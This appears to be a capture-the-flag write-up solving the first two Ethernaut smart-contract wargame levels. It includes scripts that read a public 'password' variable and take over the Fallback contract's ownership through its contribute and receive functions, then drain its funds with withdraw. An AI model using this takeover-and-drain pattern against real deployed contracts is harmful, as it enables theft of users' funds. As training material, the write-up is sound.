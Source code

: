 ## <u>Day 1: Warmup</u>

#### Ethernaut #0 (hello ethernaut)

To warm up the selection of challanges in Ethernaut, this particular challenge is about triggering a series of methods in a specific order. The order is given by the hints of each read-only methods that the smart contracts suggests to call.

It all starts by calling `info()`, which returns `You will find what you need in info1().`

Once `info1()` is called, it returns `Try info2(), but with "hello" as a parameter.`

Once `info2("hello")` is called, it returns `The property infoNum holds the number of the next info method to call.`

Once `infoNum()` is called, it returns `42`. That gives us the hint to called the next method.

Once `info42()` is called, it returns `theMethodName is the name of the next method.`

Once `theMethodName()` is called, it returns `The method name is method7123949.`

Once `method7123949()` is called, it returns `If you know the password, submit it to authenticate().`

This message could be a bit strange because we don't actually know the password. However, by  carefully inspecting the smart contract, we find a variable named `password`. Let's inspect it:

```solidity
contract HelloEthernaut {
    string public password;
    // ...
    constructor(string memory _password) {
        password = _password;
    }
}
```

Even more, this variable is updated when the smart contract is deployed. Since the variable `password` has the keyword `public`, it means that the getter of the variable `password` has been implicitly defined and we are allow to retrieve it.

Once `password()` is called, we can store that in a variable:

```javascript
var passwordSmartContract = await helloEthernaut.password()
```

By following the last hint obtained, it tells us to submit to the `authenticate()` method.

Let's do that:

```javascript
await helloEthernaut.authenticate(passwordSmartContract);
```

Within the `authenticate` method from the smart contract, we find that if the password pass is the same as the one passed at deployment, the private variable `cleared` is changes from `false` to `true`.

There is specific method within the smart contract that helps us to verify whether this level was cleared or not. Let's call it:

```javascript
console.log("Is Smart Contract cleared?", await helloEthernaut.getCleared())
// true
```

The result from this must be true and that indicated that this level is passed.

#### Ethernaut #1 (fallback)

The key point of this challenge is to become the `owner` of the contract. We should be able to trigger the method `withdraw()`,which is protected by the modifier `onlyOwner`, in order to drain all the funds in this smart contract.

While reviweing we find out that the `receive` method actually changes tha variable `owner` to be equal as the caller of the method. So we need to find a way to trigger it. 

The `receive` method is defined as follows:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

For this to work, we need to pass the require successfully. That requires that aside from sending an amount of Ether, we need to be in the mapping of `contributions` so that `contributions[msg.sender] > 0` is `true`.

To achieve that, we could make use of another function called `contribute()` which is as follows:

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

As the `require` states, we need to send at most `0.001 Ether` in order to become part of the mapping `contributions`.

So far, we need to execute a couple methods from this smart contract: `contribute` and the `receive`.

Let's create an script to do just that:

```typescript
const [deployer] = await ethers.getSigners();

const Fallback = await ethers.getContractFactory("Fallback");
const fallback = await Fallback.deploy();
await fallback.deployed();

// calling contribute with 0.0001 Ether < 0.001 Ether
await fallback.contribute({ value: ethers.utils.parseEther("0.0001") });

// calling the receive
await deployer.sendTransaction({
  to: fallback.address,
  value: ethers.utils.parseEther("0.0001"),
})
```

Up until here, we have achieved changing the value of the variable `owner` to be equal to our address.

Now the modifier `onlyOwner` would not impede us to call it since our address has become the `owner` of the smart contract.

```javascript
await fallback.withdraw();
```

By calling withdraw, all the funds of the smart contract have been transferred to the owner, which is our address by now.

Let's check it:

```javascript
console.log("Balance:", await ethers.provider.getBalance(fallback.address));
// Balance: BigNumber { value: "0" }
```

And the balance is 0.
